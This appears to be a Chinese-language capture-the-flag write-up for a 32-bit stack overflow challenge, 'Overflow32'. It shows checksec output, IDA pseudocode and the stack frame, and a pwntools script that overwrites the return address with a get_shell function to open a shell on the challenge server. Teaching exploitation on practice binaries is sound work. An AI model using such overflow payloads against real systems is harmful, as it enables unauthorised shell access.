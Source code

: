 # Overflow32

本题主要考察了基本的栈溢出

## 预处理

首先我们可以用一个小工具 `checksec` 查看二进制文件对应的**漏洞缓解机制**。
（该工具包含在python库 `pwntools` 里，也可以在 `github` 上下载项目安装）

```bash
checksec overflow3211
```

输出如下

```plain
[*] '/......./overflow3211'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

发现没有 `canary` （**栈溢出**保护）和 `PIE` （**地址随机化**保护）

## 逆向二进制文件

使用ida32打开 `overflow3211` 找到主要函数 `main` `vuln` `getshell` 的伪c代码如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  puts("overflow32");
  vuln(&argc);
  return 0;
}

char *vuln()
{
  char s[104]; // [esp+Ch] [ebp-6Ch] BYREF

  puts("Enter your message:");
  return fgets(s, 200, stdin);
}

int get_shell()
{
  puts("Wow, you found me!");
  return system("/bin/sh");
}
```

在 `vuln` 函数中，我们发现栈溢出的漏洞：缓冲区 `s` 只有104个字节，但 `fgets` 却向该处写入最大200字节的数据。我们只需要将 `vuln` 函数的返回地址改成 `get_shell` 即可得到目标的 `shell`

在ida中查看 `vuln` 函数的栈帧

```nasm
-00000078 ; D/A/*   : change type (data/ascii/array)
-00000078 ; N       : rename
-00000078 ; U       : undefine
-00000078 ; Use data definition commands to create local variables and function arguments.
-00000078 ; Two special fields " r" and " s" represent return address and saved registers.
-00000078 ; Frame size: 78; Saved regs: 4; Purge: 0
-00000078 ;
-00000078
-00000078                 db ? ; undefined
-00000077                 db ? ; undefined
-00000076                 db ? ; undefined
-00000075                 db ? ; undefined
-00000074                 db ? ; undefined
-00000073                 db ? ; undefined
-00000072                 db ? ; undefined
-00000071                 db ? ; undefined
-00000070                 db ? ; undefined
-0000006F                 db ? ; undefined
-0000006E                 db ? ; undefined
-0000006D                 db ? ; undefined
-0000006C s               db 104 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```

查看左侧相对于基址的偏移量，我们可以计算得需要填充 `0x6c+0x4` 个字节，即 `112` 个字节，再填入 `get_shell` 的地址（在ida中寻找） `0x080491F6` 即可。

于是脚本如下

```python
from pwn import *

conn=connect("58.87.70.227",10014)
payload=b"a"*112+p32(0x080491F6)

conn.recvline()
conn.recvline()
conn.sendline(payload)
conn.interactive()
```

`payload` 即为构造的输入
